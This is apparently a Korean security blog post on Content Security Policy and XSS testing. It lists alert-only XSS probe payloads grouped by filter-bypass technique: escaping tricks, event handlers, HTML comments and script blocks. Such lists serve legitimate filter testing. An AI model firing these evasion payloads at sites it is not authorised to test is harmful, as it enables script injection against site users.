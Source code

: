 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: "사이트 간 스크립팅, 크로스 사이트 스크립팅"
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: websecurity
tags: websecurity
keywords: websecurity
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: blog/XSS/
---
```


## CSP 콘텐츠 보안정책

<img src="/blog/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:100%;">
<img src="/blog/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:100%;">


## xss테스트

테스트 방법
```text
<script>alert('test');</script>
<img src=x onerror=alert('test')>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<img src=x onerror=ale&#x72t('test')>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<img src=x onerror=alert('test')>
<img src=x onerror="alert('test')">
<img src=x onerror=alert\('test'\)>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<img src=x onerror=alert('test')>-->
<!--><img src=x onerror=alert('test')><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<img src=x onerror="javascript:alert('test')">
<img src=x onerror="data:text/html,<script>alert('test');</script>">

```

